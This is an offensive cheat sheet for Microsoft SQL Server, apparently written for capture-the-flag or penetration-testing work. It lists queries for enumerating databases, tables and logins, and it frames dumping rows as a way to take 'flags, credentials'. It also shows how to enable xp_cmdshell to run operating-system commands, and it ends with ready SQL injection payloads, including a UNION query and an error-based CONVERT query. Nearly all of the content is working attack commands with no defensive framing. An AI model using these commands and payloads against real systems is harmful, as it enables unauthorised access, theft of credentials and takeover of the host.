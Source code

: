 
---

### 🔍 **1. Information Gathering / Enumeration**

#### 🔸 List all databases

```sql
SELECT name FROM master..sysdatabases;
-- OR
SELECT name FROM sys.databases;
```

#### 🔸 Switch to a database

```sql
USE dbname;
```

#### 🔸 List all tables in the current database

```sql
SELECT name FROM sys.tables;
-- OR
SELECT TABLE_NAME FROM INFORMATION_SCHEMA.TABLES;
```

#### 🔸 List all columns in a table

```sql
SELECT COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 'table_name';
```

#### 🔸 List all users

```sql
SELECT name FROM master..syslogins;
```

#### 🔸 Get current user

```sql
SELECT SYSTEM_USER;
-- OR
SELECT USER_NAME();
```

---

### 📥 **2. Data Extraction (Flags, Credentials, etc.)**

#### 🔸 Dump all rows from a table

```sql
SELECT * FROM table_name;
```

#### 🔸 Basic filter/search

```sql
SELECT * FROM users WHERE username = 'admin';
```

---

### ⚙️ **3. Command Execution (if `xp_cmdshell` is enabled)**

#### 🔸 Enable `xp_cmdshell`

```sql
EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
```

#### 🔸 Run a system command

```sql
EXEC xp_cmdshell 'whoami';
```

---

### 🔐 **4. Login / Auth Checks**

#### 🔸 Brute-force user discovery

```sql
SELECT name FROM master..syslogins WHERE name LIKE '%admin%';
```

#### 🔸 Check current DB

```sql
SELECT DB_NAME();
```

---

### 🧬 **5. Misc / Useful Metadata**

#### 🔸 Show SQL Server version

```sql
SELECT @@VERSION;
```

#### 🔸 Current hostname / server name

```sql
SELECT HOST_NAME();
SELECT @@SERVERNAME;
```

#### 🔸 List procedures (look for `xp_`, `sp_`)

```sql
SELECT name FROM sys.procedures;
```

---

### 💣 **6. SQL Injection Payload Tips**

If doing SQLi against MS SQL:

```sql
' OR 1=1--
' UNION SELECT null, @@version--
' AND 1=CONVERT(int, (SELECT TOP 1 name FROM sysobjects WHERE xtype='U'))
```
